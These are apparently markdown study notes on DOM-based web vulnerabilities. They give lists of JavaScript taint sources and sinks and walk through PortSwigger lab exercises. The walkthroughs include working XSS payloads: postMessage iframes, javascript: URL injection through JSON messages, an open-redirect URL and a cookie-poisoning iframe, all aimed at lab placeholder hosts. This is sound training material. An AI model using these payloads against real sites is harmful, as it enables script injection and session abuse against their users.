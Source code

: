 # DOM Based vulnerabilities notes

## Methodology

So simple easy start to DOM inspection would be to both manually search for sinks, or to use DOM Invader.

To start DOM Invader load the extension in the burp browser:
![image](https://github.com/user-attachments/assets/68eda86b-2662-4683-a644-8c7a93167357)

You can open DOM Invader in a tab in the developer tools in the browser:
![image](https://github.com/user-attachments/assets/ff1f2f18-fd9d-4b07-b6c1-03c832d5e8e8)

Within here you can copy the canary to inject into parameters you have user input to, see current sinks and sources when your canary has been inputted, as well as other things. We will go over this more in details in the lab walkthroughs.

For the labs specifically we do seem to have a common addEventListener() that has a tain-flow vuln exposed on it. So make sure to also review the source page for possible things that might have sinks in them, see lists below.

### Sources

Common sources to abuse for taint-flow vulns

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

### Sinks to search for

|DOM-based vulnerability |	Example sink|
|:----|:----|
|DOM XSS 	|document.write()|
|Open redirection 	|window.location|
|Cookie manipulation |	document.cookie|
|JavaScript injection| 	eval()|
|Document-domain manipulation 	|document.domain|
|WebSocket-URL poisoning 	|WebSocket()|
|Link manipulation 	|element.src|
|Web message manipulation |	postMessage()|
|Ajax request-header manipulation |	setRequestHeader()|
|Local file-path manipulation| 	FileReader.readAsText()|
|Client-side SQL injection 	|ExecuteSql()|
|HTML5-storage manipulation |	sessionStorage.setItem()|
|Client-side XPath injection 	|document.evaluate()|
|Client-side JSON injection |	JSON.parse()|
|DOM-data manipulation 	|element.setAttribute()|
|Denial of service 	|RegExp() |

**For open-redirection vulns**

```
location
location.host
location.hostname
location.href
location.pathname
location.search
location.protocol
location.assign()
location.replace()
open()
element.srcdoc
XMLHttpRequest.open()
XMLHttpRequest.send()
jQuery.ajax()
$.ajax()
```

**For cookie**
```
document.cookie
```

**ADDITIONAL**
Further lists exists on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss)

## Labs Walkthrough

### DOM XSS using web messages

- as listed in the Hacktricks list from above, we found the usage of `.innerHTML` on the document.getElementById function:
- ![image](https://github.com/user-attachments/assets/6ba5d62e-99fb-4bb7-b15c-c2e36eebcf90)
- Now we will use the exploit server to craft an iframe that calls the print() function in javascript

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

- store and deliver to victim

### DOM XSS using web messages and a JavaScript URL

- review the site and notice another window.addEventListener function is defined here
- ![image](https://github.com/user-attachments/assets/c595163a-1341-42dd-8809-0013ea8be57a)
- looks like there might be a location.href dom we can abuse
- Now we go to the exploit server to craft an iframe that calls the print() function in javascript

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

- store and devlier to victim

### DOM XSS using web messages and JSON.parse

- review the site and notice another window.addEventListener function is defined here
- ![image](https://github.com/user-attachments/assets/72c0706f-10f9-432b-8e92-e7beaf5c35af)
- Let's break this down
1. a window.addEventListener is being created passing message, and function(e)
2. This is an iframe creation, with the ACMEplayer object pointed to the created iframe with a json blob with an element equaling `iframe`, the try catch is just validating that it is json, if not break out and return
3. a switch case that checks the value and see's what action needs to happen, in this case scrolling into view if `page-load` is the type.
4. checking if `load-channel` is the type sets the iframes src value to the url and loads this url in the iframe
5. checks for `player-height-changed` value and adjusts based on the value

- we will abuse the `load-channel` part of this event listener by crafting a url that is just our xss payload, in the exploit server

```
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

- store and deliver to victim

### DOM-based cookie manipulation

- view a post and inspect the `Back to Blog` section
- ![image](https://github.com/user-attachments/assets/e83fd6c8-94da-4d5b-a983-4a37cc75475d)
- notice this functions values:
- ![image](https://github.com/user-attachments/assets/fb148073-72fa-4d83-8555-fb2362dcfe3f)
- we can abuse the `url` parameter to open redirect to any site we choose, including the exploit server

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM-based cookie manipulation

- review a product and go back to the homepage, notice that a cookie is set with the url of the last product we were at
- ![image](https://github.com/user-attachments/assets/69f6f810-b1ba-468d-a5c6-c825c70cc906)
- We can also see in the source page that there is an href that must be what the cookie is reading from:
- ![image](https://github.com/user-attachments/assets/79a06497-2a2c-48da-ae31-f599d9eab1e7)
- craft a payload in exploit server to abuse this behavior of last product url being written to the cookie

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

- we can confirm that it does load into the cookie when viewing the exploit ourselves:
- ![image](https://github.com/user-attachments/assets/717b96bb-1abc-4eef-a3fb-680b86ee1dad)
- now store and deliver to victim
